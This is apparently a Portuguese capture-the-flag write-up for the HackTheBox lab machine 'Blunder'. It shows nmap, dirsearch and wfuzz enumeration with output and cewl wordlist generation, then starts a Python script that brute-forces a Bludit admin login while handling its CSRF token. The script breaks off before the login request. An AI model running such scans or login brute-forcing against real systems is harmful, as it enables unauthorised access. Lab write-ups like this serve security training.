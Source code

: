 ```yaml
---
title: "Blunder"
date: 2020-10-17T22:06:42-03:00
draft: false
---
```


```bash
nmap -sV -sC -Pn -T4 -v -p- --min-rate=10000 10.10.10.191

python3 dirsearch.py -u http://10.10.10.191 -e *
```
`wfuzz -c -w /usr/share/wordlists/wfuzz/general/big.txt --hc 404,403 -u "http://10.10.10.191/FUZZ.txt" -t 100` 

```bash
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                      
===================================================================

000002755:   200        4 L      23 W     118 Ch      "todo"                                                                                       

Total time: 76.03240
Processed Requests: 3024
Filtered Requests: 3023
Requests/sec.: 39.77251
```
gerando wordlist com palavras do site

`cewl -w wordlists.txt -d 10 -m 1 http://10.10.10.191/`

deixei minha wordlist criada no  /root, agora pego o script em python do brute force

Crie o arquivo chamado  brute.py

Para executa-lo basta rodar o <comando>   `python3 brute.py`

Dentro do script mude o caminho da sua wordlist, no caso a minha ficou no /root/wordlists.txt

```py
import re
import requests
#from __future__ import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/root/wordlists.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))
```